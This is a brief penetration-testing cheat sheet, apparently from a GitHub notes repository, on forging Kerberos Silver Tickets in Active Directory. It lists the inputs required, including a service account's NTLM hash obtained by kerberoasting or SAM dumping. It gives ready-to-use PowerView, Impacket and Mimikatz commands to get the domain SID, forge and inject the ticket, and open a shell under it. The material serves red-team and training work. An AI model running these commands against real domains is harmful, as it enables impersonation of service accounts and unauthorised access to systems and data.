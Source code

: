 # Silver Ticket Attack

With the NTLM hash of a service account, you can create a ticket that can be used to impersonate that service account across the domain.

## Required pieces of information

1. The name of the user account to impersonate
    * Doesn't have to be a real user account
    * i.e., Administrator
2. The name of the domain
    * i.e., hydra.test
3. The SID of the domain
    * i.e., S-1-5-21-849420856-2351964222-986696166
4. The fully qualified domain name of the server
    * i.e., hydra-ws01.marvel.test
5. The target service name
    * i.e., SQLService
6. The NTLM/RC4 password hash of the target service
    * Obtainable via kerberoasting, SAM dump, secretsdump, etc.

## (PowerView) Obtain domain SID

```powershell
Get-DomainSID
```

## (Active Directory PowerShell Module) Obtain Domain SID

```powershell
Get-ADDomain
```

## (Impacket) Obtain Domain SID

```bash
lookupsid.py
```

## (Mimikatz) Create and Use the Silver Ticket

```powershell
mimikatz: kerberos::golden /user:$USER_TO_IMPERSONATE /domain:$DOMAIN /sid:$DOMAIN_SID /target:$FQDN_TARGET_SERVER /service:$TARGET_SERVICE_NAME /rc4:$NTLM_OR_RC4_HASH /ptt
```

Open up a new command prompt that leverages the silver ticket (must be in a GUI session to access the new command prompt).

```powershell
mimikatz: misc:cmd
```

## [(Impacket) Create and Use the Silver Ticket](https://yojimbosecurity.ninja/golden-ticket-with-impacket/)

* This method will need to be modified slightly for **silver** tickets.
